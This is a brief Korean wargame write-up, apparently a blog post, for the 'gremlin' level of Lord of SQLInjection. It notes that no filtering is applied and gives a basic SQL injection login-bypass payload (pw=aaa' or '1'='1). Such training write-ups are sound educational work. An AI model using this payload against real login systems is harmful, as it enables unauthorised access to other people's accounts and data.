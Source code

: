 ```yaml
---
title: "[ Lord of SQLInjection ] gremlin"
date: 2023-03-23T08:58:49.027Z
categories: ['Wargame', 'Lord of SQLInjection']
tags: ["los","web"]
---
```


![](/assets/images/2023-03-23-gremlin/2023-08-10-14-03-41.png)

<br>
<br>

### **문제 분석**
---

1. 로그인에 성공하면 문제를 해결할 수 있다.

2. 특별한 필터링은 적용되어 있지 않다.


<br>
<br>


### **문제 풀이**
---

기본적인 sql injection 공격을 하면 해결할 수 있다.

```sql 
?id=aaa&pw=aaa' or '1'='1
```

![](/images/11ff4c93-32ea-4f2e-b9d2-d171dfb15f75-image.png)

